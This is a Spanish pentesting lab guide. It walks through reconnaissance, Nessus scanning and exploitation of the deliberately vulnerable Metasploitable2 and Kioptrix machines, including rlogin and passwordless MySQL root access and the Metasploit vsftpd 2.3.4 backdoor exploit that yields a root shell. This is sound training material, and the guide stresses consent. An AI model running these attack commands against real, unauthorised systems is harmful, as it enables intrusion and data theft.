





# **Guía de PenTesting**

## **Introducción**

El presente documento tiene como función el ser una guía del proyecto realizado con el objetivo propósitos de mostrar las generalidades del PenTesting al igual que las herramientas usadas y el empleo de estas mismas.

## **Preparación del Laboratorio**

### Herramientas

Para el desarrollo del presente proyecto, se emplearon un número de herramientas las cuales nos permitirán realizar cada una de las diferentes fases pertenecientes al PenTesting. Este paso puede saltarse en su totalidad en el caso de estar trabajando con una instalación de Kali Linux puesto que, este _distro_ en específico, ya cuenta con la gran mayoría de las herramientas con las que se trabajará.

#### Arp-Scan

Arp-Scan, en términos generales, cumple la función de un scanner de red en búsqueda de los dispositivos conectados en un red local.

```sh
# Instalación en Arch/Manjaro
pacman -S arp-scan

# Instalación en Ubuntu
sudo apt-get install arp-scan
```

#### Nmap

De manera sencilla, `nmap`, o _Network Mapper_; es una herramienta que nos permite realizar el escaneo de dispositivos tanto locales como remotos con el fin de observar el estado de diferentes puertos al igual que la recuperación de información sobre lo que se encuentra en dichos puertos.

```sh
# Instalación en Arch/Manjaro
pacman -S nmap

# Instalación en Ubuntu
apt-get install nmap
```

#### Metasploit

Metasploit es un framework de seguridad que posee una gran cantidad de scripts y herramientas que nos permiten realizar tanto escaneos como exploits para realizar pruebas de seguridad.

```sh
# Instalación en Arch/Manjaro
pacman -S metasploit

# Instalación en Ubuntu
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```

#### Exploitdb

`Exploitdb` es una base de datos dedicada a la recolección de `exploits` de diferentes clases. Esto es especialmente útil para la identificación de posibles vulnerabilidades a partir de la información conocida sobre el sistema.

```sh
# Instalación en Arch/Manjaro
pacman -S exploitdb

# Instalación en Ubuntu
apt install exploitdb
```

#### Nessus

Nessus, es un scanner de vulnerabilidades. Esta herramienta se encarga de, a partir de una IP dada, realizar la identificación automática de las distintas vulnerabilidades presentes en el sistema a probar. Es a partir de esto que podremos probar diferentes _exploits_ con los cuales realizar ataques.

Para la instalación de Nessus en `Arch/Manjaro` se puede seguir la guía de la [wiki de Arch Linux](https://wiki.archlinux.org/title/nessus).
En el caso de `Ubuntu`, se puede segur la guía de [tenable](https://docs.tenable.com/nessus/Content/InstallNessusLinux.htm).

### Máquinas Virtuales

Lo primero a realizar para la realización del desarrollo de la presente proyecto está en la preparación del entorno de trabajo, o laboratorio de PenTesting. Para el desarrollo del presente proyecto, estaremos trabajando con un total de 2 máquinas virtuales, las cuales usaremos para la demostración de las diferentes etapas del PenTesting.

Estas nos permitiran trabajar en un ambiente controlado sin la necesidad de estar exponiendo nuestro equipo a redes externas, o correr el riesgo de afectar algún computador o red de un tercero.

#### VMWare

Para esta ocasión, estaremos usando la VMWare como nuestro Hypervisor para la creación de todas las máquinas virtuales en las que vamos a estar trabajando. Como configuraciones generales, y para los propósitos del desarrollo de este proyecto, la única opción verdaderamente obligatoria es la selección de la configuración de red en puente (O Bridged Connection). El resto de las configuraciones pueden dejarse al mínimo o según estas lo requieran. (Ver Fig. 1)

<p align="center">
    
    <figcaption align="center">Fig. 1 - Selección de conexión "bridged" en VMWare </figcaption>
</p>

#### Metasploitable2

Metasploitable2 es una máquina virtual de Linux intencionalmente vulnerable utilizada para el entrenamiento de seguridad al igual que las pruebas de diferentes herramientas para realizar PenTesting.

Para nuestros propósitos de la demostración de las fases del PenTesting, en especial la identificación de vulnerabilidades, nos resulta especialmente útil debido las evidentes vulnerabilidades que estas presenta.

Podemos encontrar la imagen de esta máquina en se siguiente [vínculo](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/). Tras descargar y extraer, sólo debemos agregar el archivo `.vmx` a nuestra instalación de VMWare.

#### Kioptrix Level 1

Al igual que Metasploitable2, Kioptrix es una máquina virtual de Linux que presenta vulnerabilidades de manera intencional. Es por esto que nos interesa el trabajar con esta para el cumplimiento de los objetivos del desarrollo del presente proyecto.

La imagen de esta máquina puede ser encontrada en el siguiente [vínculo](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/). Tras descargar y extraer, sólo debemos agregar el archivo `.vmx` a nuestra instalación de VMWare.

## **Etapas del PenTesting**

### **Fase de Recolección de Información**

La recolección de información es de las fases más importantes en cuanto al PenTesting se refiere. Esto se debe a que, como es de esperarse, es aquí es donde se sientan las bases de lo que luego serían las pruebas de penetración a realizar.

#### **Recolección Pasiva**

La recolección pasiva dentro del PenTesting se refiere a la recuperación de Información del objetivo a atacar sin verdaderamente realizar un contacto _directo_. Esto puede verse principalmente en la identificación de las características principales de la página y la información que esta provee de manera pública (OSINT).

Este tipo de recolección de datos, es principalmente usada para realizar PenTesting a aplicativos web o servidores `http` o `https`. Esto se debe a que, en el caso de las redes en las que queramos realizar PenTesting, la información abierta al público sobre la red, puede ser poca o nula en algunos cosas.

Dentro de las herramientas que podemos usar están `theharvester`, `subdomain3`, `whois` al igual que motores de búsqueda como google e incluso, en el caso de aplicativos web, las páginas en sí.

```sh
# Estos son algunos de los comandos que nos pueden interesar para realizar la recolección
# de información pasiva de algunas páginas web
python brutedns.py -d google.com -s high -l 5
```

[Resultado de la ejecución](https://gist.github.com/MrDahaniel/9b71389beb3bd22e689a4a937cc008ed)

#### **Recolección Activa**

La recolección activa de datos ya trata como tal de la recolección de información a partir de la interacción con el objetivo de manera directa a través de la red. Este tipo de recolección se puede realizar a partir de escaneos de red usando herramientas como `nmap` o `nessus` en el caso de redes o `nikto` en el caso de páginas web.

Lo primero sería el realizar una inspección general de los dispositivos dentro de la red, esto puede hacerse de varias maneras:

```sh
# Usando arp-scan
arp-scan --interface=enp3s0 --localnet
# usando nmap
nmap -sn 192.168.0.0/24
```

[Resultado de la ejecución](https://gist.github.com/MrDahaniel/fa3c3d5ffd3b7d6d38ce5d5e7bf91aae)

##### Staging

Tras haber identificado la `ip` objetivo, podemos es posible realizar un análisis más detallado del dispositivo y qué información está al alcance de nuestras manos. En este caso, se realizará el análisis de 2 `ips` objetivo.

Lo primero, usando `nmap`, y pasando la opción `-p-` como bandera, lo que indica que queremos hacer un recorrido de todos los puertos; podemos realizar el _staging_ del dispositivo con el fin de, en el momento de realizar la inspección más a fondo, haya un mejor rendimiento en términos de ejecución.

```sh
# Escaneo de Metasploitable2
nmap -T4 -p- 192.168.0.17
# Escaneo de Kioptrix L1
nmap -T4 -p- 192.168.0.21
```

[Resultado de la ejecución](https://gist.github.com/MrDahaniel/0e80bf474dd094928fdf427487d5c0c3)

##### Deep Searching

Ahora, partiendo de la información que nos proporcionó el escaneo general de todos los puertos, podemos realizar un escaneo más a profundidad de cada uno de los puertos listados o a los puertos que consideremos relevantes o interesantes.

Algunos de los puertos seleccionados, o de interés general para nuestras aplicaciones, está en la búsqueda de los puertos abiertos relacionados con servicios SSH, o conexión entre máquinas; sistemas de archivos, como Samba u otros; servidores web, o servidores http; e incluso motores de búsqueda como lo pueden ser MySQL o PostgreSQL.

Empecemos con los puertos relevantes para la máquina de Metasploitable2.

```sh
# Escaneo a profundidad de Metasploitable2
nmap -A -p22,23,53,80,139,445,514,3306 -T4 192.168.0.17
```

[Resultado de la ejecución](https://gist.github.com/MrDahaniel/8e0feb42021d3a77b0262c8900c84762#file-nmap-net-scan-metasploit2)

Tras la ejecución de nuestro escaneo, se nos presentan varios detalles importantes para nuestra actual tarea. Podemos ver versiones de OpenSSH, que el puerto que está corriendo Telnet está abierto, la existencia de un servidor web de Apache al igual que su versión actual, la existencia de Samba al igual que su versión actual y, finalmente, la existencia de un servidor de MySQL 5.0.51a y otros protocolos.

Una de las cosas que podemos hacer es realizar la inspección de, en este caso, el servidor apache que está ejecutando para ver si podemos encontrar algún tipo de información relacionada con la configuración de esta u otras características del sistema. Visitando con nuestro navegador de preferencia la `ip` de nuestra máquina de Metasploitable2, se nos presenta la siguiente pantalla.

<p align="center">
    
    <figcaption align="center">Fig. 2 - En el servidor web de Metasploitable2</figcaption>
</p>

Explorando un poco, podemos ver la algunos de los menús que se nos presentan. Entre estos está el menú de Administrador `php` al igual que algunas de las páginas web que están montadas dentro del servidor.

<p align="center">
    
    <figcaption align="center">Fig. 3 - Página de phpMyAdmin  </figcaption>
</p>
<p align="center">
    
    <figcaption align="center">Fig. 4 - Menú de la página web de Metasploitable2</figcaption>
</p>

Usando `nikto`, podemos ver más información relacionada con la página web que está _hosteando_ la máquina de Metasploitable2.

```sh
# Escaneo del servidor http
nikto -h 192.168.0.17
```

[Resultado de la ejecución](https://gist.github.com/MrDahaniel/9254909c6131a83d1a8492ca725c0039#file-nikto-metasploitable2)

Esto nos presenta con más información sobre la versión del servidor al igual que más urls que pueden considerarse interesantes. Cosas como que, revisando `/phpinfo.php`, podemos ver de manera abierta la configuración casi que completa del servidor al igual que muchas de las librerías que está usando (Ver fig. 5).

<p align="center">
    
    <figcaption align="center">Fig. 5 - Información sobre el servidor expuesta</figcaption>
</p>

Ahora revisemos los puertos de la máquina de Kioptrix.

```sh
# Escaneo a profundidad de Kioptrix L1
nmap -A -p22,80,111,139,443,1024 -T4 192.168.0.21
```

[Resultado de la ejecución](https://gist.github.com/MrDahaniel/8e0feb42021d3a77b0262c8900c84762#file-nmap-net-scan-kioptrix)

De esto se esto, al igual que con la máquina anterior, nos presenta con más información sobre el sistema la cual nos puede ser útil más adelante. La existencia de `OpenSSH` versión 2.9p2; un servidor apache, versión 1.3.20 y `mod ssl` 2.8.4 que aún tiene su página de Test activada; los diferentes puertos de trabajo de rcpbind; y finalmente, la existencia de `Samba` son algunos de los resultado esta operación.

Podemos revisar el puerto `139` relacionado con `Samba` y los diferentes grupos de trabajo presentes en este. Probemos realizar una simple conexión al cliente de `Samba`.

```sh
# Nos conectamos al cliente de Samba
smbclient -L 192.168.0.21
```

[Resultado de la ejecución](https://gist.github.com/MrDahaniel/06918ee97091209042ef15d16515a2e8)

De esto, y sin la contraseña del cliente, podemos ver la existencia de algunos de los Sharenames a los cuales podemos tratar acceder. Intentando realizar la conexión usando `smbclient 192.168.0.21\ADMIN$` o `smbclient 192.168.0.21\IPC$`, aunque no nos permite avanzar más de ahí, nos muestra que `IPC$` no tiene contraseña.

Tras revisar, y anotar, todo lo que nos parezca interesante, y consideremos que se tiene suficiente información relacionada con el sistema, podemos pasar a la siguiente fase del PenTesting.

### **Fase de Búsqueda de Vulnerabilidades**

Tras la identificación de algunos de los recursos disponibles durante la fase de la recolección activa de información. Se debe, ahora, buscar las posibles vulnerabilidades de las máquinas a las cuales les estamos realizando el PenTesting. Es a partir de las vulnerabilidades identificadas durante esta fase sobre la cual construiremos nuestro informe final para que, los responsables de la seguridad de la red, puedan realizar las correcciones necesarias para mitigar las vulnerabilidades encontradas.

#### Nessus

Una de las herramientas más relevantes que se tienen para la identificación de las diferentes vulnerabilidades presentes es Nessus. Como tal, esta herramientas es un escaner de vulnerabilidades propietario que nos permite realizar, pues, escaneos de diferentes `ips` dentro de una red local o remota, con el fin de identificar una gran cantidad de vulnerabilidades.

Lo primero a hacer, tras crear la cuenta de `Tenable` e ingresar, es crear un escaneo básico de red (`Basic Network Scan`). Esto nos permitirá realizar una revisión del `host` seleccionado con algunos de los parámetros y configuraciones recomendadas. Aunque es posible usar nuestras propias configuraciones en el caso de usar un escaneo avanzado (`Advanced Scan`), para los propósitos de esta guía, el escaneo básico será más que suficiente (Ver Fig. 6).

<p align="center">
    
    <figcaption align="center">Fig. 6 - Menú de Nessus con sus diferentes tipos de escaneo </figcaption>
</p>

Ahora, sólo debemos agregar nuestras `ips` objetivos en `targets` y darle un nombre al escaneo (Ver fig. 7).

<p align="center">
    
    <figcaption align="center">Fig. 7 - Menú de Nessus para la configuración de un escaneo </figcaption>
</p>

Tras esto, sólo es cuestión de ejecutar el escaner y esperar a que nos reporte las vulnerabilidades encontradas con las configuraciones establecidas. Esto nos permitirá ver, de mananera general, algunos de los problemas más evidentes de nuestro sistema y así saber a qué nos enfrentamos. Tras el escaneo de los `targets` dados, tendremos una lista de cada uno de ellos con las diferentes vulnerabilidades encontradas por `Nessus`.

<p align="center">
    
    <figcaption align="center">Fig. 8 - Vulnerabilidades en cada una de las máquinas</figcaption>
</p>

Como era de esperarse, tanto nuestra máquina de `Metasploitable2` como `Kioptrix`, presentan una gran cantidad de vulnerabilidades. Esto nos permite, en primera instancia, el comprender el estado de seguridad de nuestro sistema a probar. A mayor cantidad de vulnerabilidades encontradas, más _exploits_ deberían estar a nuestra disposición.

Revisemos primero los resultados para nuestra máquina de `Metasploitable2`.

<p align="center">
    
    <figcaption align="center">Fig. 9 - Vulnerabilidades críticas de Metasploitable2</figcaption>
</p>

Como es posible observar, lo que primero llama nuestra atención son las vulnerabilidades de severidad **críticas**. Estas, por lo general, son las más fáciles de explotar a nuestro favor que implica graves problemas en la seguridad del sistema al cual le estamos realizando el PenTesting. Podemos ver detalles de cada una de las vulnerabilidades encontradas haciendo _click_ en cada una de ellas.

Un ejemplo de estas vulnerabilidades **críticas** a destacar, está en las `backdoors` (ver fig. 10). En esencia, esto nos permite el acceso a un sistema de manera relativamente sencilla sin necesariamente ningún tipo de credenciales. Es a partir de esta "puerta trasera" por la cual un atacante, o en este caso nosotros, puede acceder a nuestra máquina. Es por esto que este tipo de vulnerabilidades deben ser solucionadas la manera más pronta posible.

<p align="center">
    
    <figcaption align="center">Fig. 10 - Vulnerabilidad tipo backdoor</figcaption>
</p>

Otras de las vulnerabilidades fácilmente identificables dentro de este primer análisis está en el estado del sistema operativo, el cual para este momento ya no tiene soporte oficial; la presencia de vulnerabilidades de [envenenamiento de caché](https://owasp.org/www-community/attacks/Cache_Poisoning); al igual que accesos remotos de la `shell`.

Veamos ahora las vulnerabilidades presentes en la máquina de `Kioptrix`.

<p align="center">
    
    <figcaption align="center">Fig. 11 - Vulnerabilidades críticas y altas de Kioptrix</figcaption>
</p>

Lo primero a notar de estos resultados está en la gran cantidad de vulnerabilidades presentes en el servidor de `Apache` que está ejecutandose. Este tipo de vulnerabilidades está principalmente dado por problemas con versiones antiguas del software y otros módulos. Aunque no son aparentemente problemáticas por lo que están relacionadas con servidores web, este tipo de vulnerabilidades puede traer grandes problemas en el caso de acceso no autorizado a información de usuario o incluso acceso directo a la máquina como administrador.

#### Nmap Scanners

Otra de las herramientas que podemos usar para encontrar vulnerabilidades está en los escaneres manuales que podemos ejecutar. Uno de estos casos está integrado con relativa facilidad a la herramienta `Nmap`. A parte de ser una herramienta para el escaneo de un sistema, esta posee algunos escaneres que permiten identificar algunas vulnerabilidades que puede que no sean detectadas por `Nessus`.

Este tipo de escaneos manuales es necesario para poder tener una _imagen_ más completa del sistema que estamos probando. Por ejemplo, está en el servicio de `MySQL` de nuestra máquina de `Metasploitable2`, que, por una mala configuración en el momento de la instalación, la cuenta de `root` no tiene una contraseña asignada. Esto no fue detectado durante el escaneo de `Nessus` a nuestra máquina por lo que es durante este escaneo manual, o escaneos más específicos, que podemos identificar este tipo de vulnerabilidades (ver fig. 12).

<p align="center">
    
    <figcaption align="center">Fig. 12 - Vulnerabilidades de SQL en Metasploitable2</figcaption>
</p>

Estos escaneres pueden ser accedidos con relativa facilidad entrando a la carpeta respectiva en los archivos de `Nmap`. De igual manera, es posible filtrar entre los diferentes `scripts` en el caso de estar buscando algo más específico.

```sh
# Esta carpeta contiene toda clase de scripts para escaneo y exploits
cd /usr/share/nmap/scripts

# En el caso de estar buscando otro tipo de scanner o exploit, podemos cambiar el término de
# mysql por lo que estemos buscando
ls | grep mysql
```

Tras ejecutar nuestro último comando se nos presentarán varias opciones que pueden servirnos para identificar más vulnerabilidades. Sin embargo, para este caso, nos interesa más `mysql-empty-password.nse` puesto que es el script que nos permite saber si hay o no una contraseña.

```sh
# Ejecutamos el script de la siguiente manera estando en la carpeta que lo contiene especificando el puerto
nmap --script=mysql-empty-password.nse -p3306 -T4 192.168.0.17 -v
```

[Resultado de la ejecución](https://gist.github.com/MrDahaniel/a19624caf736a56e9e04b19514413149)

Y, como era de esperarse, efectivamente se nos reporta que la configuración del servicio de `MySQL`, no posee una clave. Esta es una gran vulnerabilidad en términos de la información de usuario la cual puede ser expuesta.

#### Reportando Vulnerabilidades

Todas las vulnerabilidades que sean encontradas durante el desarrollo de esta fase, han de ser reportadas. Es por eso que será necesario anotar todo lo que sea identificado con el fin de incluirlo en el informe final.

### **Fase de Explotación de Vulnerabilidades**

En esta fase es donde se realizará la explotación de vulnerabilidades. El principal propósito de esta fase es, de manera general, tanto la confirmación de las vulnerabilidades detectadas en el sistema como el intento del dueño de la máquina siendo probada de identificar o mitigar los ataques siendo realizados.

Una de las cosas importantes a resaltar es que, en el caso de estar probando exploits en la máquina de una persona real, esta debe saber previamente que se van a realizar estos ataques. Por ejemplo, en el caso de realizar un `backdoor` a una computadora, el dueño debe saber que se va a realizar dicha acción con el fin de evitar posibles inconvenientes.

#### Explotación Simple

Los primeros exploits que podemos realizar, en orden de complejidad, son los exploits simples. Estos, en términos generales, se refiere a exploits los cuales no requieren un script o ejecuciones más allá de una pantalla de inicio de sesión o un único comando. Este tipo de exploits se refiere principalmente a `backdoors` de fácil acceso o simplemente abusando de errores de configuración.

Recordando la backdoor encontrada en la máquina de Metasploitable2, podemos explotar esta con un simple comando de inicio de sesión.

```sh
# Nos conectamos a la máquina con privilegios de `root`
rlogin -l root 192.168.0.17

# Preguntamos en que usuario estamos
root@metasploitable:~\# whoami
# root
```

Tras un breve momento, tendremos una terminal con permisos de `root` cuando no deberíamos tenerlo. Hemos realizado nuestro primer exploit.

Recordando que la vulnerabilidad detectada respecto a la mala configuración de la base de datos de `MySQL`, podemos probar el ingresar a este de la misma manera.

```sh
# Se realiza la conexión a la base de datos
mysql -u root -p -h 192.168.0.17

# Preguntamos quienes somos
MySQL [(none)]> select current_user();
# +----------------+
# | current_user() |
# +----------------+
# | root@%         |
# +----------------+
```

Como podemos ver, nuevamente tenemos acceso y a nivel de `root` sin problema alguno.

#### Metasploit Framework

Una de las opciones principales en cuento a la realización de exploits más avanzados está en el usar un framework de seguridad como lo es Metasploit. Esta herramienta tiene una alta funcionalidad que va desde escaneres hasta los mismos exploits usadas durante el PenTesting.

Ahora, durante la fase de identificación de vulnerabilidades, `Nessus` reportó la presencia de una vulnerabilidad relacionada con la versión de `vsftpd`.

<p align="center">
    
    <figcaption align="center">Fig. 13 - Vulnerabilidades vsftpd</figcaption>
</p>

Esto se debe principalmente a un `backdoor` presente en esta versión en específico de `vsftpd` la cual nos permitiría ganar acceso directo al servidor `FTP` presente en esta máquina. Usando el framework de `metasploit`, podemos usar dicha `backdoor`.

Lo primero es ingresar al framework de metasploit.

```sh
# Ingresamos al framework
msfconsole
```

Tras esperar un momento a que inicie, podemos buscar los exploits relacionados con `vsftpd` simplemente escribiendo en la terminal:

```sh
msf6 > search vsftpd

Matching Modules
================

   #  Name                                 Disclosure Date  Rank       Check  Description
   -  ----                                 ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor 2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution

Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

Como podemos ver, se nos presenta un único exploit relacionado precisamente con la versión `2.3.4` de `vsftpd`. Para poder usar dicho exploit, simplemente debemos indicarle a `msfconsole` que queremos usar dicho exploit.

```sh
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

Ahora sólo es cuestión de pasarle la información sobre el objetivo a atacar, en este caso `192.168.0.17` y ejecutar el exploit.

```sh
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 192.168.0.17
rhosts => 192.168.0.17
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.0.28:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.0.28:21 - USER: 331 Please specify the password.
[+] 192.168.0.28:21 - Backdoor service has been spawned, handling...
[+] 192.168.0.28:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.0.18:36673 -> 192.168.0.17:6200)

whoami
root
```

Hemos ganado acceso a la máquina.

#### Exploitdb

### **Fase Post-explotación**

La fase de post-explotación en el PenTesting se refiere principalmente a la búsqueda de maneras de elevar nuestro acceso al sistema. Uno de los ejemplos más básicos de esto es, tras adquirir acceso a un usuario, tratar de ganar acceso a nivel de `root` para así tener más control sobre el sistema.

Para los propósitos de esta guía no estamos interesados en realizar dicha elevación de permisos. Esto se debe a que el hacerlo requeriría muchos más conocimientos en términos tanto de sistemas operativos y de seguridad. Lo más cercano a esto estaría en la búsqueda de información de caracter sensible dentro del sistema con el fin de demostrar el alcance de la vulnerabilidad explotada.

Recordando el acceso que tuvimos a la base de datos de `MySQL` en la máquina de `Metasploitable2`, es posible realizar una exploración más profunda dentro de la base de datos con el fin de entender que datos pudieron haber sido comprometidos en caso de que un verdadero atacante hubiera explotado esta vulnerabilidad.

```sh
# Se realiza la conexión a la base de datos
mysql -u root -p -h 192.168.0.17

MySQL [(none)]> show databases;
MySQL [(none)]> use tikiwiki;
MySQL [tikiwiki]> show tables;
```

[Resultado de la ejecución](https://gist.github.com/MrDahaniel/761f9814167b4c63aebccaffe3d6108f)

Como puede observarse, al tener acceso de root a la base de datos, podemos acceder a todo el contenido de la misma. Es decir, en el caso de que un atacante hubiera notado la falta de seguridad en la base de datos, una gran cantidad de información de usuario hubiera sido comprometida en su totalidad.

### **Fase de Informe**
